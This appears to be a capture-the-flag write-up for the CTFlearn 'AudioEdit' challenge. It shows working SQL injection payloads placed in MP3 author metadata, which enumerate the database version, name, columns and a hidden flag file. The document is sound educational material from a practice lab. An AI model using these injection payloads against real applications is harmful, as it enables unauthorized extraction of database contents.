 ## Solution

#### Step-1:
After I visited http://web.ctflearn.com/audioedit/, I got this.

#### Step-2:
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.

We figured the insertion statement looked something like this:

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);
```

In order to do an SQL-injection we have to create a special author and title field. I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data. In order to inject and maintain a valid INSERTION statement you can create a `mp3` with the following meta data:

```sql
title  = "" (leer)
author = a', (SELECT @@version))-- -b
```

which creates the following statement

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);
```

The `a` in the beginning and the `b` in the end were necessary because the first and last character were truncated.

This gave us the database version: `5.5.49-0ubuntu0.14.04.1`

#### Step-3:
Next we wanted to know the database name:

```sql
author = a', (SELECT database()))-- -b:
audioedit
```

And of course the column names:

```sql
author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
with x in range(0,3):
id
file
author
title
```

So finally we wanted see whats in there:

```sql
author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
```

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time. Thanks to SQLs.

```sql
author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
ABCTF
author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
flag
author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
supersecretflagf1le.mp3
```

#### Step-4:
Finally the exploited URL: https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3